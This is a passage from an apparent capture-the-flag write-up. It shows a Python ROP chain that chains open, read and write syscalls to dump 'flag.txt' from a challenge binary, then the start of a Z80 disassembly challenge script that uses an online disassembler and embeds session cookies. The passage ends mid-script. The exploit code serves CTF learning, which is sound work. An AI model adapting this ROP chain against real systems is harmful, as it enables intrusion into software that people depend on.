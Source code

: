 ```python
rop = 'A' * 16 # padding
rop += p(pop_r7_r6_r5_r4_pc_r8)
rop += p(0x41414141) # r8

rop += p(0x0) # r7 modes
rop += p(0x0) # r6 flags
rop += p(flag_txt_addr) # r5 'flag.txt'
rop += p(0x5) # r4 -> open
rop += p(syscall_ret)
rop += p(0x41414141) # r8

rop += p(pop_r7_r6_r5_r4_pc_r8)
rop += p(1000) # r7 count
rop += p(data_addr) # r6 buffer
rop += p(0x3) # r5 fd
rop += p(0x3) # r4 -> read
rop += p(syscall_ret)
rop += p(0x41414141) # r8

rop += p(pop_r7_r6_r5_r4_pc_r8)
rop += p(1000) # r7 count
rop += p(data_addr) # r6 buffer
rop += p(0x1) # r5 fd
rop += p(0x4) # r4 -> write
rop += p(syscall_ret)
rop += p(0x41414141) # r8

f.write(rop + '\n')
print (f.read(1024))
```

### Binary 200 Let's disassemble

It gives you some opcodes, and then you should give back the assembly. The
target architecture is Z80. Totally 100 rounds.

```python
#!/usr/bin/python
import requests
import struct
import socket
import telnetlib
import pwnlib
import pwn

def readuntil(f, delim='\n'):
    data = ''
    while not data.endswith(delim):
        data += f.read(1)
    return data

def p(v):
    return struct.pack('<I', v)

def u(v):
    return struct.unpack('<I', v)[0]

def dis(hex_val):
    url = 'http://www2.onlinedisassembler.com/odaweb/_set'
    cookies = {'sessionid':'2h4isq6ytst6gu9rqu9wn9ryngrotk50',
           '_ga':'GA1.2.722795681.1417831855',
           '_gat': '1'}
    payload = {'arch':'z80',
        'base_address':'',
```